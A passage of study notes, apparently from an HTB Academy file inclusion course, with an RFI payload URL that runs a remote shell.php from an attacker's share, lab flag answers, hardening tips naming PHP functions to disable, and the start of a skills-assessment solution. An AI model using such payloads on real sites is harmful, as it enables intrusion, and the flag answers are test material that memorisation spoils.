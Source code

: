 And then execute shell.php as follows:

`http://example.com/index.php?language=\\{IP here}\shere\shell.php&cmd=id`


HTB Academy Questions:
======================

1. Attack the target, gain command execution by exploiting the RFI vulnerability, and submit the contents of the flag.txt file located in the /exercise directory.
A. 99a8fc05f033f2fc0cf9a6f9826f83f4

Hardening Tips
==============

=> create a deny list and allow list for checking maliciouse thing 

=> creating mailing service for when malicious thing happend they mail to the defender

=> nerver display error messages to the website

=> block that function that cause problems like system(),passthru(),shell_exec(),popen(),proc_open(), curl_exec(), curl_multi_exec(), parse_ini_file(), show_source() etc.

=> block web application to load files from remote location.

=> jail the web application to prevent it to access non-web related files.that is done by using docker or in set language to access file from base location in php hat can
be done by adding open_basedir = /var/www in the php.ini file

=> use web application firewall(WAF) to harden the web application for attacks.

### HTB Academy Question

1. What is the full path to the php.ini file for Apache?
A. /etc/php/7.4/apache2/php.ini

2. Edit the php.ini file to block system(), then try to execute PHP Code that uses system. Read the /var/log/apache2/error.log file and fill in the blank: system() has been 
disabled for ________ reasons.
A. security


Section 4/Skills Assessment-File Inclusion/Directory Traversal Part
----------------------------------------------------

Q: Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system.
Submit the contents of the flag as your answer.
A: a9a892dbc9faf9a014f58e007721835e

# Solution

## Findings:

### Directory Scanning Result:
```
images/
css/
js/
fonts/
assets/
```
monstly from this are forbiden
